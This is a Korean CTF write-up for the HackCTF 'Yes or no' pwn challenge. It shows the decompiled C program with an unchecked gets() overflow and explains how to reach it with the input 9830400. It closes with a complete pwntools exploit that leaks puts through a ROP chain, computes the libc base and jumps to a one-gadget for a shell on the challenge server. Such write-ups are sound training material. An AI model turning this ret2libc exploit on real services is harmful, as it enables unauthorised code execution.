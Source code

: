 ```yaml
---
title: "[HackCTF]Yes or no"
date: 2019-12-26
ctf: HackCTF
layout: post
---
```


문제 의도는 그냥 ++전에 오는지 후에 오는지로 값 어떻게 나오는지 알아서 값을 맞춰주도록 해서 취약점으로 유도하는게 의도였던거 같다. 문제 서버는 ubuntu 18.04다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // eax
  char s; // [rsp+Eh] [rbp-12h]
  int input; // [rsp+18h] [rbp-8h]
  int v11; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v11 = 5;
  puts("Show me your number~!");
  fgets(&s, 10, stdin);
  input = atoi(&s);
  if ( (v11 - 10) >> 3 < 0 )
  {
    v4 = 0;
  }
  else
  {
    v3 = v11++;
    v4 = input - v3;
  }
  if ( v4 == input )
  {
    puts("Sorry. You can't come with us");
  }
  else
  {
    v5 = 1204 / ++v11;
    v6 = v11++;
    if ( input == v6 * v5 << (++v11 % 20 + 5) )
    {
      puts("That's cool. Follow me");
      gets(&s);
    }
    else
    {
      v7 = v11--;
      if ( input == v7 )
      {
        printf("Why are you here?");
        return 0;
      }
      puts("All I can say to you is \"do_system+1094\".\ngood luck");
    }
  }
  return 0;
}
```

입력한 숫자 정수형을 바꿔서 취약점 터지는 부분에 가게 하면 된다.

```
if ( input == v6 * v5 << (++v11 % 20 + 5) )
{
	puts("That's cool. Follow me");
	gets(&s);
}
```

취약점은 여기에서 터진다. 그래서 input값을 구해주면 된다.

![](https://user-images.githubusercontent.com/32904385/71475652-898eeb00-2824-11ea-8b21-9cb91fea4988.png)

그냥 c로 짜서 나온 결과 가져왔다. 결과는 `9830400` 이면 통과해서 `gets(&s)` 로 갈 수 있게된다.

그래서 `9830400` 들어가서 gets로 ret 바꿔서 puts leak하고 main으로 돌려서 oneshot 날려주면 된다. 그냥 문제에 라이브러리도 줘서 쉽게 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
e = ELF('./yes_or_no')
# p = process('./yes_or_no')
p = remote('ctf.j0n9hyun.xyz',3009)
libc = ELF('./libc-2.27.so')
prdi = 0x0000000000400883 # pop rdi ; ret

p.sendlineafter('!\n',str(9830400))

payload = '\x90' * 0x12
payload += 'realsung'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('me\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('!\n',str(9830400))

payload2 = '\x90' * 0x12
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('me\n',payload2)

p.interactive()
```

